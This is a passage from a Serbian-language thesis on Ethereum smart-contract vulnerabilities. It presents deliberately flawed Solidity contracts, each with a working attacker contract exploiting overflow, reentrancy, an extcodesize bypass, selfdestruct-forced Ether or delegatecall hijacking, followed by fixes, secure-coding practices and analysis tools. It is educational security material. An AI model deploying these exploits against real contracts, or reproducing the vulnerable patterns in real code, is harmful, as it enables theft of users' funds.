Implementacija tokena korišćenjem pametnih ugovora je jedna od najčešćih upotreba i mi ćemo u ovom primeru predstaviti jedan od propusta koji ima veliki uticaj na te tokene. Pametni ugovor tokena u ovom primeru je implementiran tako što je proširen poznati \verb|ERC20| standard za implementaciju tokena, ovaj standard definiše najbitnije funkcije za svaki token kao što su transfer tokena, provera balansa, odobrenje transakcije itd. Jedna od dodatnih funkcija koje ovaj standardizovani pametni ugovor implementira je \verb|batchTransfer| funkcija koja omogućava vlasnicima tokena da pošalju jednaku količinu tokena na više različitih adresa. Upotrebom ove funkcije korisnici mogu da uštede na količini gasa koja je potrebna da bi izvršili željeni transfer tokena na više adresa.

\begin{lstlisting}[caption=Funkcija za prenos sredstava na više adresa koja sadrži propust prekoračenja broja, label={lst:hyperinflation}]
function batchTransfer(address[] memory _receivers, uint256 _value) public payable returns (bool) {
    uint cnt = _receivers.length;
    uint256 amount = uint256(cnt) * _value;
    
    require(cnt > 0 && cnt <= 20);
    require(_value > 0 && balances[msg.sender] >= amount);

    balances[msg.sender] = balances[msg.sender] - amount;

    for (uint i = 0; i < cnt; i++) {
        balances[_receivers[i]] = balances[_receivers[i]] + _value;
        transfer(msg.sender, _receivers[i], _value);
    }

    return true;
}
\end{lstlisting}

Detaljnom analizom implementacije ovog tokena, možemo primetiti da provere na samom početku \verb|batchTransfer| funkcije nisu dovoljne da bi sprečile sve slučajeve neočekivane upotrebe funkcije. Postoje dve provere, prva koja će osigurati da ima bar jedan i manje ili tačno dvadeset novčanika na koje treba poslati tokene i druga provera koja će osigurati da je vrednost koja se šalje veća od nule i da pozivalac funkcije ima dovoljno tokena. Provera da li pošiljalac ima dovoljno tokena se izvršava tako što se uporedi trenutna količina tokena sa zbirom broja primalaca i količinom tokena koje oni primaju. Propust koji maliciozni korisnik može da iskoristi je da odabere broj primalaca i količinu za slanje tako da njihovim množenjem dođe do prekoračenja broja koji će se sačuvati u promenljivoj \verb|amount|. Do tih brojeva može doći tako što odredi koji je najveći broj koji se može sačuvati u promenljivoj, a zatim broj primalaca i količina za stanje postave tako da njihov proizvod bude veći od tog broja.

Na primeru koda \ref{lst:batchTransfer}, napadač je izabrao da na dve adrese pošalje broj tokena koji je jednak polovini najvećeg broja koji se može sačuvati u \verb|uint256| tipu promenljive. Izvršavanjem poziva \verb|batchTransfer(receivers, amount);| od strane napadačkog ugovora, adrese navedene kao primaoci će imati dobiti veliku količinu tog tokena.

\begin{lstlisting}[caption=Primer poziva koji eksploatiše prekoračenje, label={lst:batchTransfer}]
address[] memory receivers = new address[](2);
receivers[0] = 0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db;
receivers[1] = 0x78731D3Ca6b7E34aC0F824c42a7cC18A495cabaB;
uint256 amount = (type(uint).max)/2 + 1;

bool success = TokenAddress.batchTransfer(receivers, amount);
\end{lstlisting}

Napadač koji poseduje veliku količinu ovog tokena, potencijalno veću od ostatka tokena u cirkulaciji, može da ode u menjačnicu i da ga zameni za Eter, Bitkoin ili neku tradicionalnu valutu kao što je dolar. Tada se kao posledica ovog napada javlja hiperinflacija, zato što usled povećane količine tokena u cirkulaciji sam token kreće drastično da gubi na svojoj vrednosti.

Preporučeni način za zaštitu je da se koristi verzija Soliditi prevodioca koja je veća ili jednaka od 0.8.0 jer je od te verzije uvedeno bacanje izuzetka ukoliko dođe do prekoračenja ili potkoračenja vrednosti broja. Međutim, često se vidi da ugovori koji su ranije napisani, kao meru zaštite od ovoga napada koriste \textit{SafeMath} biblioteku od OpenCepelina (eng. \textit{OpenZeppelin}) koja implementira funkcije za bezbedno korišćenje matematičkih operacija. Na primeru implementacije množenja u ovoj biblioteci možemo videti kako su izvršene neophodne provere za sprečavanja prekoračenja broja.

\begin{lstlisting}[caption=Funkcija za množenje iz \textit{SafeMath} biblioteke, label={lst:safeMath}]
function mul(uint256 a, uint256 b) internal pure returns (uint256 c) {
    if (a == 0) {
      return 0;
    }
    c = a * b;
    assert(c / a == b);
    return c;
}
\end{lstlisting}

Inspiracija za ovaj napad je hakovanje BEC tokena (eng. \textit{Beuty Chain Token}) koji je proširivao ERC20 implementaciju tokena koja je sadržala funkciju \verb|batchTransfer| sa propustom \cite{bec}. Usled nagle povećanje količine tokena u cirkulaciji, sam token je jako brzo izgubio svoju vrednost.

\section{Kovčeg sa Eterom}

Eter kovčeg je jednostavan pametan ugovor koji pruža mogućnost korisnicima da odlože svoje Etere na neko određeno vreme. Tek nakon isteka odabranog perioda korisnik će moći da povuče svoje tokene iz ugovora, ili ukoliko žele korisnici mogu da produže vreme koliko će njihov novac biti zaključan. Ovaj primer je osmišljen kako bi demonstrirao ulančavanje više propusta kako bi se ukrao novac iz pametnog ugovora.

\begin{lstlisting}[caption= {Funkcije za prenos sredstava, uvećanje vremenskog zaključavanja i povlačenje sredstava iz pametnog ugovora Kovčeg sa Eterom}, label={lst:chest}]
contract EtherChest {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() public payable {
		balances[msg.sender] += msg.value;
        lockTime[msg.sender] += block.timestamp + 1 weeks;
	}

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

	function withdraw(uint _amount) public {
		require(balances[msg.sender] >= _amount);
        require(
            block.timestamp > lockTime[msg.sender], 
            "Lock time not expired"
        );

        (bool sent, ) = msg.sender.call{value:_amount}("");
		require(sent, "Failed to send Ether");
		balances[msg.sender] -= _amount;
	}
}
\end{lstlisting}

Kada korisnik reši da zaključa svoj novac u kovčeg pozivom funkcije \verb|deposit|, postaviće se njegov novi balans i vreme koliko će novac biti zaključan se postavlja na 7 dana što je podrazumevani minimum. Nakon toga pozivom funkcije \verb|increaseLockTime| korisnik može da proizvoljno poveća vreme čekanja. Napadač koji želi prvi da iskoristi uočene propuste želeo bi takođe da smanji vreme čekanja do izvršenja napada i to može postići pozivom \verb|increaseLockTime| funkcije sa dovoljno velikim brojem koji će dovesti do prekoračenja broja sačuvanog u \verb|lockTime| nizu za datog pozivalaca.

Analizom \verb|withdraw| funkcije iz koda \ref{lst:chest}, napadač može uočiti da se ovaj ugovor ne štiti od napada ponovnog ulaska zato što se prvo šalju sredstva na adresu, a tek nakon toga se menja interno stanje. Međutim da bi mogao iz jednog napada da preuzme veću količinu tokena na brži način, napadač može da izbegne rekurizvno pozivanje funkcije koja preuzima po jedan Eter, i da umesto toga ukombinuje napad ponovnog ulaska sa potkoračenjem (eng. \textit{underflow}) broja koji čuva balans napadača.

\begin{lstlisting}[caption=Funkcije pametnog ugovora koji eksploatiše propuste u ugovoru Kovčeg sa Eterom, label={lst:exploitchest}]
contract ExploitChest {
    EtherChestInterface public etherChest;
    bool performAttack = true;

    constructor(EtherChestInterface _etherChestAddress) payable {
        etherChest = EtherChestInterface(_etherChestAddress);
    }

    function exploit() external payable {
        require(msg.value >= 1 ether);
        etherChest.deposit{ value: 1 ether}();
        
        etherChest.increaseLockTime(
            type(uint).max + 1 - etherChest.getLockTime()
        );
        etherChest.withdraw(1 ether);
    }

    fallback() payable external {
        if (performAttack) {
            performAttack = false;
            etherChest.withdraw(1 ether);
        }
    }
}
\end{lstlisting}

Napadački pametni ugovor izvršava \verb|exploit| funkciju koja prvo prenese 1 eter u kovčeg, zatim inkrementira period zaključavanja za vrednost koja će dovesti do prekoračenja broja tako da vrednost bude 0, na kraju ova funkcija poziva povlačenje svog Etera iz ugovora. Nakon što je Eter kovčeg ugovor poslao nazad napadačkom ugovoru 1 Eter, pozvaće \verb|fallback| funkciju koja će zatim povući još jedan Eter iz pametnog ugovor i postaviti da balans napadača bude ispod nule, tj. doćiće do potkoračenja vrednosti i novi balans napadač će biti najveći celobrojni broj koji se može predstaviti sa 256 bita. Napadač pozivom funkcije \verb|withdraw| onda može da ukrade sav balans Eter kovčeg pametnog ugovora pozivom \verb|retrieveStolenFunds| funkcije.

Na kraju redosled propusta koje je napadač ulančano eksploatisao je sledeći: prekoračenje broja za vremensko zaključavanje, ponovni ulazak u funkciju za povlačenje sredstava i potkoračenje broja koji čuva balans. Programeri koji razvijaju pametne ugovore moraju da iskoriste tehnike zaštite koje su opisane u prethodna dva primera kako bi se zaštitili od ovakvih napada. Bezbedna implementacija funkcije \verb|withdraw| je prikazana na primeru koda \ref{lst:safechest}.


\begin{lstlisting}[caption=Bezbedna implementacija funkcije za povlačenje sredstava iz ugovora Kovčeg sa Eterom, label={lst:safechest}]
function safeWithdraw(uint _amount) public {
	require(balances[msg.sender] >= _amount);
    require(
        block.timestamp > lockTime[msg.sender],
        "Lock time not expired"
    );
		
	balances[msg.sender] -= _amount;
    (bool sent, ) = msg.sender.call{value:_amount}("");
	require(sent, "Failed to send Ether");
}
\end{lstlisting}

\section{Kralj Etera}

Kralj Etera (eng. \textit{King of Ether}) je poznata igra u krugovima Soliditi programera, jednostavna je za implementaciju, ali isto tako je i dobar primer za demonstraciju napada uskraćivanja usluge, ovaj napad je poznat pod skraćenicom DOS (eng. \textit{Denial of Service}). Sama igra se sastoji od jednog poziva za preuzimanje trona gde pozivalac ukoliko pošalje više Etera nego što je poslao trenutni kralj, on postaje novi kralj, a prethodnom se šalju nazad njegovi Eteri.

Ukoliko bi neko pokušao iz pametnog ugovora koji ne implementira \verb|fallback| funkciju da pozove \verb|claimThrone| funkciju iz Kralj Etera ugovora, on bi preuzeo tron a svako sledeći koji pošalje veću ponudu od njegove neće uspeti da preuzme tron zbog greške koje koja će biti emitovana kad god se bude pokušalo slanje Etera nazad trenutnom kralju, tj. napadačkom pametnom ugovoru. Samim tim će biti zauvek onemogućena postavljanje novog kralja.

U ovom primeru ćemo proširiti samu igru sa proverom da li je pozivalac funkcije pametan ugovor ili ne. Neko ko se prvi put susreće sa ovim propustom može lako da pomisli da bi ovaj napad mogao da se spreči tako što bi prilikom poziva \verb|claimThrone| funkcije izvršio proveru da li \verb|extcodesize| promenljiva veća od 0 i ako jeste onda je pozivalac pametan ugovor. Implementacija funkcije \verb|claimThrone| zajedno sa proverom da li je pozivalac pametan ugovor je prikazana na primeru koda \ref{lst:kingOfEther}.

\begin{lstlisting}[caption=Pametni ugovor za igru Kralj Etera, label={lst:kingOfEther}]
contract KingOfEther {
    address public king;
    uint public balance;

    function isContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    function claimThrone() external payable {
        require(msg.value > balance, 
            "Need to pay more to become the king");
        require(!isContract(msg.sender), "No contract allowed");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
\end{lstlisting}

Napadač koji bi želeo da zaobiđe ovu proveru može to da postigne tako što bi premestio poziv za preuzimanje trona u sam konstruktor napadačkog pametnog ugovora. Veličina samog pametnog ugovora se postavi tek kada se završi kreiranje pametnog ugovora, i zato promenljiva \verb|extcodesize| će biti nula ukoliko se proveri tokom izvršavanja konstruktora.

\begin{lstlisting}[caption=Pametni ugovor koji eksploatiše ugovor Kralj Etera, label={lst:kingconstructor}]
contract exploitKing {
    KingOfEtherInterface kingOfEtherAddress;

    constructor(KingOfEtherInterface _kingOfEther) payable {
        kingOfEtherAddress = KingOfEtherInterface(_kingOfEther);
        kingOfEtherAddress.claimThrone{value: msg.value}();
    }
}
\end{lstlisting}

Na kraju napadač postaje doživotni kralj ulančavanjem dva propusta: loše provere da li je pozivalac ugovor i loše upotrebe funkcije za slanje tokena. Način za rešavanje ovog propusta je da se umesto slanja Etera nazad bivšem kralju, napiše metoda kojom će bivši kralj preuzeti nazad svoja novčana sredstva. Generalna je preporuka da se prilikom pisanja pametnih ugovora odgovornost prebaci na korisnike da povuku sredstva iz ugovora, umesto da pametan ugovor sam šalje sredstva na nepoznatu adresu. 

\section{Nagradna igra}

Poslednji primer koji će biti predstavljen u ovom radu je implementiran kroz primer nagradne igre. Pokretač ovog ugovora poklanja 10 Etera, ali da bi se učestvovalo u nagradnoj igri mora se rešiti jednostavna zagonetka i uložiti 1 Eter, i tek deseti po redu koji uloži će biti pobednik. Svakom korisniku je omogućeno da više puta uloži u nagradnu igru. Zbog održavanja jednostavnosti i lakšeg razumevanja propusta u ovom pametnom ugovoru, implementacioni detalji oko generisanja i rešavanja zagonetke su izostavljeni.

\begin{lstlisting}[caption=Pametni ugovor nagradne igre, label={lst:giveaway}]
contract Giveaway {
    address public lib;
    address public winner;
    address payable public owner;
    uint targetAmount = 20 ether;
    uint balance;

    constructor(address _lib) payable {
        require(msg.value == 10 ether, "To initialize contract you need to send 10 Ethers");
        lib = _lib;
        owner = payable(msg.sender);
    }

    function enterGiveaway() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint currentBalance = address(this).balance;
        require(currentBalance <= targetAmount, "Game is over");

        if (currentBalance == targetAmount) {
            winner = msg.sender;
        }
    }

    function safeEnterGiveaway() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function prepareNewPuzzle(uint _num) public {
        (bool sent, ) = lib.delegatecall(
            abi.encodeWithSignature("preparePuzzle(uint256)", _num));
        require(sent, "Failed to prepare new puzzle");
    }

    function claimReward() public {
        require(msg.sender == winner, "Not a winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
\end{lstlisting}

U trenutku kada 10 po redu pozove funkciju za učestvovanje u nagradnoj igri, balans nagradne igre će biti jednak ciljanom balansu i pozivalac funkcije će se postaviti za pobednika nagradne igre, svako sledeće pozivanje funkcije \verb|enterGiveaway| će biti prekinuto jer je željeni balans dostignut. Programer koji je sastavio ovaj ugovor nije imao na umu da ova funkcija nije jedini način na koji neko može da pošalje Etere ovom ugovoru. Napadač može da iskoristi funkcionalnost \verb|selfdestruct| funkcije koja pored uništavanja određenog ugovora može da pošalje preostao novac tog ugovora na izabranu adresu, tako bi napadač pozivanjem funkcije za samouništavanje uspeo da natera pametni ugovor nagradne igre da primi Etere na neočekivani način.

\begin{lstlisting}[caption=Prvi pametni ugovor napadača koji šalje Etere korišćenjem selfdestruct, label={lst:exploitgiveaway}]
contract ExploitSelfdestruct {
    address giveawayAddress;

    constructor(address _giveawayAddress) {
        giveawayAddress = _giveawayAddress;
    }

    function exploit() public payable {
        address payable addr = payable(address(giveawayAddress));
        selfdestruct(addr);
    }
}
\end{lstlisting}

Prethodni napad je dovoljan da se ugovor zablokira i da se onemogući izvlačenje Etera iz njega, zbog načina na koji smo poslali Etere nismo mogli da postavimo pobednika. Kako bi napad bio potpuno uspešan, napadač prelazi na drugu fazu napada gde će pokušati da postavi sebe za pobednika, a to može postići samo modifikovanjem \verb|winner| promenljive tako da omogući sebi da pozove \verb|claimReward| funkciju.

\begin{lstlisting}[caption=Funkcija za preuzimanje nagrade, label={lst:claimreward}]
function claimReward() public {
    require(msg.sender == winner, "Not a winner");

    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to send Ether");
}
\end{lstlisting}

Daljom analizom pametnog ugovora za nagradnu igru, možemo uočiti da on ostvaruje eksterni poziv ka biblioteci koristeći \verb|lib.delegatecall()|, a analizom koda pametne biblioteke se može zaključiti da njeno menjanje promenljive stanja može da dovede ugovor pametne igre u neočekivano stanje ukoliko se modfikuje \verb|initNum| promenljiva. 

\begin{lstlisting}[caption=Primer implementacije jednostavne biblioteke za pametne ugovore, label={lst:libexample}]
contract Lib {
    uint public initNum;

    function preparePuzzle(uint _num) public {
        initNum = _num;
        // perform some calculations on number
        uint newNumber = _num;
    }
}
\end{lstlisting}

Za eksploataciju napada na lošu implementaciju biblioteke koja se poziva sa \verb|delegatecall|, potrebno je napraviti napadački pametni ugovor koji će imati iste funkcije i redosled promenljivih kao ciljana biblioteka, uz dodatna proširenja koja su napadaču potrebna.

\begin{lstlisting}[caption=Pametan ugovor koji eksploatiše delegatecall poziv, label={lst:exploitlib}]
contract Exploit {
    address public lib;
    address public winner;
    uint public someNumber;
    address payable owner;
    GiveawayInterface public giveawayAddress;

    constructor(GiveawayInterface _giveawayContract) {
        giveawayAddress = GiveawayInterface(_giveawayContract);
        winner = msg.sender;
        owner = payable(msg.sender);
    }

    function exploit() public payable {
        giveawayAddress.preparePuzzle(uint(uint160(address(this))));
        giveawayAddress.preparePuzzle(1);
        giveawayAddress.claimReward();
    }

    function preparePuzzle(uint _num) public {
        winner = msg.sender;
    }
    
    function retrieveStolenFunds() public {
        owner.transfer(address(this).balance);
    }
    
}
\end{lstlisting}

Pozivom funkcije \verb|exploit| napadačkog ugovora, napadač će prvo pozvati funkciju \verb|preparePuzzle()| i iskoristi njen propust kako bi postavio svoj ugovor za biblioteku. Zatim drugim pozivom iste funkcije, napadač indirektno poziva metodu koju ima implementiranu u svom ugovoru, zato što je njegov pametni ugovor nova biblioteka nagradne igre, i u svojoj implementaciji postavlja sebe za pobednika. Na kraju pozivom \verb|claimReward()| preuzima nagradu. Na slici \ref{fig:delegatecall_attack} je prikazan dijagram druge faze napada.

Pametni ugovori se mogu zaštiti od neželjenog primanja Etera, tako što neće koristiti \verb|address(this).balance|, već će imati promenljivu stanja za balans koja se isključivo ažurira iz funkcija ugovora. Za zaštitu od eksploatisanja \verb|delegatecall| i biblioteke, preporuka je da se pišu biblioteke bez stanja, tj. biblioteke ne bi trebale da imaju promenljive stanja.

\begin{figure}[htb]
\centering

\includegraphics[width=\textwidth]{delegatecall_attack_flow.png}
\caption{\emph{Dijagram toka napada na biblioteku i delegatecall }}
\label{fig:delegatecall_attack}
\end{figure}


\chapter{Razvoj sigurnih pametnih ugovora}

Propusti u pametnim ugovorima su često prouzrokovani nedovoljnim poznavanjem i razumevanjem tehnologije kojom se razvijaju od strane programera. Cilj autora je da u ovom poglavlju ukaže na dobre prakse u razvoju pametnih ugovora koje mogu osigurati pametne ugovore od propusta koji su predstavljeni u prethodnim poglavljima.

\section{Provera-Efekat-Interakcija šablon}

Provera-Efekat-Interakcija šablon (eng. \textit{Checks-Effects-Interactions pattern}) je najznačajniji šablon koji se koristi u pisanju funkcija pametnog ugovora. Prema ovom šablonu operacije koje funkcija obavlja se svrstavaju u tri koraka i uvek se izvršavaju u sledećem redosledu:
\begin{enumerate}
    \item Provera - Prva stvar koju funkcija pametnog ugovora mora da odradi jeste provera da li svi ulazni parametari i promenljive stanja zadovoljavaju kriterijume potrebne za korektno izvršavanje funkcije.
    \item Efekat - Ukoliko su svi kriterijumi zadovoljeni, funkcija treba da modifikuje promenljive stanja pametnog ugovora.
    \item Interakcija - Kao poslednji korak treba da se izdvoji komunikacija i interakcija sa drugim pametnim ugovorima.
\end{enumerate}

Izdvajanjem interkacije sa drugim pametnim ugovorima na kraj funkcije, sprečavaju se propusti poput ponovnog ulaska u funkciju kao što je to prikazano u primerima NFT aukcije i kovčega sa Eterom.

\section{Slanje ili povlačenje sredstava}

Eksterni pozivi koje pametni ugovor izvrši mogu slučajno ili namerno da propadnu. Umanjenje štete prouzrokovane neuspelim eksternim pozivima se može postići ukoliko se svaki taj poziv izdvoji u funkciju koju će korisnik posebno pozivati \cite{consensys}. Ovo je posebno važno primeniti ukoliko se vrši isplaćivanje sredstava, bolje prepustiti korisnike da sami pozovu metodu za povlačenje sredstava iz pametnog ugovora nego da sam ugovor unutar funkcije u kojoj ima biznis logiku, vrši slanje sredstava korisnicima. Primenom ove prakse se takođe umanjuje šansa da dođe do neuspelog izvršavanje funkcije usled nedostatka gasa.

Pametan ugovor koji je implementiran na ovaj način je zaštićen od napad uskraćivanja usluge koji je prikazan u primeru kralj Etera.

\section{Prekidači kola}

Prekidači kola (eng. \textit{circuit breakers}) je naziv za sve provere koje prekidaju izvršavanje funkcije pametnog ugovora ukoliko uslovi nisu zadovoljeni. Prekidači kola mogu biti implementirani kao modifikatori koji će se dodeliti funkciji i biti izvršeni pre samog koda funkcije, ili implementirani korišćenjem \verb|assert|, \verb|require| ili \verb|revert| funkcije iz Soliditi jezika.

\begin{lstlisting}[caption=Prekidači kola igra, label={lst:breakers}]
contract CircuitBreakersGame {
    address private owner;
    uint public gameBalance;

    modifier isAdmin() {
        require(msg.sender == owner);
        _;
    }
    
    function finishGame() isAdmin public {
        if(gameBalance != 0 || 
            (gameBalance > 0 && gameBalance \% 2 == 1)
        ){
            revert();    
        }
        
        uint score = calculateScore();
        assert(score >= 25);
    }

}
\end{lstlisting}

Funkcija \verb|require| se koristi za proveru ulaznih parametara funkcije, proveru razultata eksternih poziva i validiranje stanja pametnog ugovora, a \verb|revert| se koristi kao zamena za \verb|require| kada je potrebno izvršiti kompleksnije provere. Funkcija \verb|assert| se koristi za testiranje internih grešaka, i prilikom njenog poziva se potroši sav dostupan gas, dok prethodne dve funkcije vrate preostali gas korisniku koji je pozvao funkciju. Razlog za to je što se \verb|assert| treba koristiti samo u situacijama kada se nešto potpuno neočekivano desilo u izvršavanju pametnog ugovora \cite{checks}.

\section{Formalna verifikacija}

Formalna verifikacija predstavlja dokazivanje da sofverski sistem ili hardver zadovoljavaju formalnu specifikaciju svog ponašanja. U slučaju pametnog ugovora, formalna verifikacija je način provere ispravnosti implementacije pametnog ugovora prema zadatoj specifikaciji. Formalna verifikacija može pomoći da se razume razlika između specifikacije pametnog ugovora i same implementacije, ali korišćenjem formalne verifikacije nije moguće uhvatiti propuste koji postoje u samoj specifikaciji pametnog ugovora.

Soliditi kompajler implementira formalnu verifikaciju korišćenjem SMT rešavača pod nazivom SMT Čeker (eng. \textit{SMTChecker}) koji proverava da li kod zadovoljava uslove zadate kroz \verb|assert| i \verb|require| funkcije. SMT čeker takođe proverava da li može doći to prekoračenja ili potkoračenja celih brojeva, da li postoje nedostižni delovi koda, da li je izvršeno deljenje sa nulom ili pristup elementu van niza. Ukoliko se koristi verzija Soliditi kompajlera koja je starija od 0.8.4, potrebno uključiti SMT Čeker navođenjem sledeće pragma direktive na početku implementacije pamentog ugovora \verb|pragma experimental SMTChecker;| \cite{solver}.

\section{Ostale preporuke}

U ovom potpoglavlju se navode dodatne preporuke koje mogu da doprinesu sigurnosti pametnog ugovora:
\begin{itemize}
    \item Ograničiti maksimalnu količinu Etera koju ugovor može da sačuva ukoliko je to moguće, na taj način će se smanjiti gubici ukoliko dođe do eksploatisanja propusta.
    \item Uključivanje metoda za dodatnu proveru stanja ugovora, na primer metoda koja bi proveravala da li se interna promenljiva koja prati balans poklapa sa balansom pametnog ugovora, i ukoliko se ne poklapa da se ugovor prebaci u stanje u kom vlasnici tokena mogu da povuku svoja sredstva.
    \item Održavanje koda malim i modularnim.
    \item Koristiti proverene biblioteke poput OpenCepelin biblioteke \cite{openzeppelin}.
    \item Koristiti događaje za praćenje aktivnosti pametnog ugovora.
    \item Koristiti modifikatore samo za provere.
    \item Ne koristiti \verb|kill| ili \verb|selfdestruct| funkcije u pametnom ugovoru.
    \item Ne zaboraviti da su svi podaci na blokčejnu javni.
    \item Povećati broj ljudi koji pregledaju kod i angažovati ljude koji su specijalizovani za proveru sigurnosti pametnih ugovora.
\end{itemize}

\chapter{Alati za pronalaženje propusta u pametnim ugovorima}

Na kraju, i pored poznavanja svih dobrih praksi za razvoj sigurnih pametnih ugovora i poznavanja načina za eksploataciju propusta, važno je uraditi proveru pametnih ugovora korišćenjem alata koji identifikuju poznate propuste u kodu. U nastavku će biti predstavljeni trenutno najkorišćeniji alati za detekciju propusta u pametnim ugovorima.

Trenutno dostupni alati nemaju veliku uspešnost u pronalaženju propusta i mogu odati utisak lažne sigurnosti programerima koji se u potpunosti oslanjaju na njih. Autor ovog rada smatra da je ovo oblast koja ima dosta prostora za unapređenje i očekuje se pojava novih alata i drugačijih pristupa u budućnosti.

\section{Sliter}

Sliter (eng. \textit{Slither}) je radni okvir za statičku analizu Soliditi pametnih ugovora napisan u Pajton (eng. \textit{Python}) programskom jeziku. Ovaj alat pokreće paket od 76 detektora ranjivosti, vizualizuje informacije o pametnom ugovoru i obezbeđuje aplikativni programski interfejs (skr. API) za jednostavno pisanje prilagođenih analiza za pametan ugovor \cite{slither}. 

Upotreba ovog alata je široko rasprostranjena u industriji, a u periodu od aprila 2020. godine do maja 2021. godine, 77 miliona dolara je moglo da bude sačuvano, da se koristio ovaj alat za proveru pametnih ugovora \cite{slitherTrophy}.

\section{Majtril}

Majtril (eng. \textit{Mythril}) je alat za bezbednosnu analizu EVM bajtkoda. Pored Eteriuma detektuje i propuste u ugovorima koji su napravljeni za Hedera, Kvorum, Vičejn, Tron i ostale EVM-kompatibilne blokčejnove. Koristeći simboličko izvršavanje, SMT rešavače i analizu mrlja (eng. \textit{taint analysis}), ovaj alat pronalazi veliki broj poznatih propusta \cite{mythril}. Majtril se u kombinaciji sa drugim alatima koristi na Majtiksu (eng. \textit{Mythx}), popularnoj komercijalnoj platformi za sigurnosnu analizu pametnih ugovora \cite{mythx}.

\section{Mantikor}

Mantikor (eng. \textit{Manticore}) je alat za simboličko izvršavanje koji se koristi za analizu pametnih ugovora. Korišćenjem ovog alata moguće je pisati Pajton programe koji će proveriti putanje izvršavanja, otkrivati greške, generisati ulazne parametere i proveravati stanja pametnog ugovora \cite{manticore}.

\section{Ojente}

Ojente (eng. \textit{Oyente}) je alat za otkrivanje propusta u pametnim ugovorima uz pomoće statičke analize. Ovaj alat izdvaja graf kontrole toka (eng. \textit{control flow graph}) iz EVM bajtkoda pametnog ugovora i simbolički izvrašava kako bi detektovao propuste u pametnom ugovoru. Ovaj alat je specijalizovan za pronalaženje nepredvidivog stanja, vremenskog ograničenja, neočekivanih izuzetaka i propusta ponovnog ulaska \cite{atzei, oyente}.

\section{Ekidna}

Ekidna (eng. \textit{Echidna}) je Haskel program dizajniran za fazing (eng. \textit{fuzzing}), tj. testiranje bazirano na svojstvima (eng. \textit{property-based testing}) za Eterium pametne ugovore \cite{manticore}. Cilj ovog programa je da generiše maliciozne ulazne parametre koji će pokvariti izvršavanje pametnog ugovora.

\chapter{Zaključak}

Kako upotreba kriptovaluta, blokčejna i pametnih ugovora kontinualno raste, cela industrija oko ovih tehnologija se kreće velikom brzinom i to dovodi do stvaranja raznih propusta. Kako će pametni ugovori u budućnosti imati mnogo veću rasprostranjenost u svakodnevnoj upotrebi, očekuje se i veći broj krađe novčanih sredstava koji ti ugovori čuvaju. 

Autor pre svega bliže objašnjava način funkcionisanja pametnih ugovora, karakteristike, kao i koje su sve upotrebe pametnih ugovora. U ovom radu su dalje predstavljeni najznačajniji i najčešći propusti u pametnim ugovorima i spomenuti su najpoznatiji primeri eksploatisanja tih propusta. Svi predstavljeni propusti su klasifikovani u jedno od tri klasa prema nivo na kom se javljaju: Soliditi, EVM ili Blokčejn. Propusti iz Soliditi klase propusta se najčešće eksploatišu i imaju najveći uticaj, stoga je autor formirao 5 primera pametnih ugovora koji sadrže ukupno 9 propusta iz te klase. Ugovori su napisani tako da se iz njih može jasno uočiti propust koji ugrožava ugovor. Kroz eksploataciju napisanih ugovora, prikazano je nekoliko tehnika za krađu novčanih sredstava iz pametnih ugovora. Pošto je svega 2\% svih poznatih propusta u postojećim pametnim ugovorima moguće eksploatisati, za neke pametne ugovore je prikazano da je potrebno ulančavati više propusta kako bi se došlo do novčanih sredstava, jer često samo jedan postojeći propust nije dovoljan da bi se nanela šteta pametnom ugovoru \cite{exploitable}. Nakon koraka eksploatacije, u radu je predloženo kako pametan ugovor može da se zaštiti za svaki od tih propusta. Posebna pažanja je posvećena dobrim praksama u razvoju pametnih ugovora koje mogu doprineti bezbednosti samog ugovora, a u poslednjem poglavlju su navedeni trenutno najkorišćeniji alati za analizu propusta u pametnim ugovorima.

Posmatrajući sve primere poznatih eksploatacija pametnih ugovora i najčešćih propusta, dolazi se do zaključka da da bi se izbegao veliki broj propusta neophodno je dobro poznavanje internog funkcionisanja pametnih ugovora, praćenje dobrih programerskih preporuka za pisanje pametnih ugovora i dobro poznavanje najčešćih i najefektivnijih propusta.


\thebibliography{10}

\bibitem{blockejnsigurnost} N. Zdravković, V. Apostolov, \emph{CS545 Sajber bezbednost sa blokčejnom}, 2021 % https://ec.europa.eu/programmes/erasmus-plus/project-result-content/8fcc63c5-12d3-43f2-b359-cc2bdfc69fc3/T3.3.2.3.\%20Cyber\%20Security\%20with\%20Blockchain\%20\%E2\%80\%93\%20Syllabus\%2BLearning\%20Material.pdf

